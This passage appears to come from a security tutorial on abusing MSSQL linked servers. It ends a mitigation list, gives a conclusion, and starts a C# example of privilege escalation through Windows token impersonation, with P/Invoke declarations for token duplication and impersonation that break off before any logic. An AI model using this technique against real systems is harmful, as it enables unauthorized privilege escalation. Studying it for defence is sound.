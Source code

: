 6. **Restrict Delegation**: Carefully manage and restrict delegation settings, particularly unconstrained delegation, to prevent Kerberos ticket abuse.

### **Conclusion**

Linked Servers are a powerful feature in MSSQL that can be exploited if misconfigured. Attackers can use them to escalate privileges, steal credentials, move laterally within a network, and execute arbitrary commands on remote servers. Proper configuration, auditing, and monitoring are crucial to prevent exploitation.

To demonstrate privilege escalation using token impersonation in conjunction with MSSQL in C# or C++, here's an overview:

1. **MSSQL Access**: The code connects to an MSSQL server using a lower-privileged user account.
2. **Token Impersonation**: The code then leverages a technique to impersonate a token with higher privileges.

The focus will be on using the C# example with MSSQL, then showing how token impersonation might occur.

### C# Example

#### Prerequisites

- Ensure you have references to `System.Data.SqlClient` or `Microsoft.Data.SqlClient` for MSSQL connections.
- The code uses P/Invoke to call native Windows API functions necessary for token manipulation.

#### **C# Code Example: Connecting to MSSQL and Token Impersonation**

```csharp
using System;
using System.Data.SqlClient;
using System.Runtime.InteropServices;
using System.Security.Principal;
using System.Diagnostics;

namespace TokenImpersonationExample
{
    class Program
    {
        // P/Invoke declarations
        [DllImport("advapi32.dll", SetLastError = true, CharSet = CharSet.Auto)]
        public static extern bool OpenProcessToken(IntPtr ProcessHandle, uint DesiredAccess, out IntPtr TokenHandle);

        [DllImport("advapi32.dll", SetLastError = true, CharSet = CharSet.Auto)]
        public static extern bool DuplicateToken(IntPtr ExistingTokenHandle, int SECURITY_IMPERSONATION_LEVEL, out IntPtr DuplicateTokenHandle);

        [DllImport("advapi32.dll", SetLastError = true, CharSet = CharSet.Auto)]
        public static extern bool ImpersonateLoggedOnUser(IntPtr hToken);

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool CloseHandle(IntPtr hObject);

        // Access rights
        const uint TOKEN_QUERY = 0x0008;
        const uint TOKEN_DUPLICATE = 0x0002;
        const uint TOKEN_ASSIGN_PRIMARY = 0x0001;
        const uint TOKEN_IMPERSONATE = 0x0004;
        const int SecurityImpersonation = 2;

        static void Main(string[] args)
        {
```